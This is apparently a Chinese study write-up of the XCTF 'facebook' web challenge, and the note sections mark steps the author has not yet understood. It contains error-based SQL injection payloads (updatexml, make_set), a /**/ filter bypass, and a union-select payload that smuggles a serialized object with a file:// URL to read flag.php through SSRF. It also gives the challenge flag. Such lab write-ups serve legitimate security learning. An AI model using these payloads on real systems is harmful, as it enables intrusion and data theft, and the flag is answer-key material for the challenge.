






> 攻防世界 web高手进阶区 facebook
>
> original writeup：https://blog.csdn.net/mochu7777777/article/details/104868401
>
> 待办事项：
>
> - [ ] SSRF漏洞
> - [ ] 服务器端请求伪造漏洞
> - [ ] waf检测
> - [ ] 反序列化file文件协议
> - [ ] /**/绕过方法

- 题目描述：

  

  注册一个facebook账号，用户名可以点击。

  

- 使用dirsearch工具扫描目录：

  

  扫描ip地址，发现存在robots.txt文件，进入查看：

  

- 代码审计

  下载user.php.bak文件，查看如下：

  

  分析代码，发现其对url参数没有进行任何的过滤，所以这里存在**ssrf**。

- 点击pengsj，出现下面的页面和url：

  

  `and 1=1` 页面正常：

  

  `and 1=2`页面异常：

  

  （上面的操作是判断是否存在**sql注入**的基本操作。）

  并且返回的页面中有报错信息，从报错信息中可以知道网站的绝对路径为`/var/www/html/`

- 开始注入过程（报错注入）

  使用`updatexml`报错注入查询信息：

  - **查询表名：**

    ` and updatexml(1,concat('~',(select table_name from information_schema.tables where table_schema=database())),1)`

    

    如图所示，数据库的表名为`users`。

  - **查询字段名：**

    `concat`每次只能显示一条信息，很不方便，使用`make_set`函数可以一次性把所有的获取的表名或者字段名显示出，构造payload：

    `and updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name='users')),1)` 

    

  - **查询数据data内容：**

    `and updatexml(1,make_set(3,'~',(select data from users)),1)`

    

- 反序列化构造file文件协议：

  通过以上信息，可以得出构造最后的payload的思路是：

  ***（注：这里访问的flag.php文件是在第一步目录扫描中得到的（别的writeup上说的，但是我并没有扫出来））***

  利用no参数进行注入，在**反序列化**中构造file文件协议，利用**服务端请求伪造漏洞**访问服务器上的`flag.php`文件，构造payload如下：***（这一步没有很明白，还需要再看资料学习一下）***

  `?no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' `

  因为这里有waf检测一些非法的字符，所以使用`/**/`的方法绕过。

  

  查看源代码：

  

  

- 所以最后的flag为：

  `flag{c1e552fdf77049fabf65168f22f7aeab}`

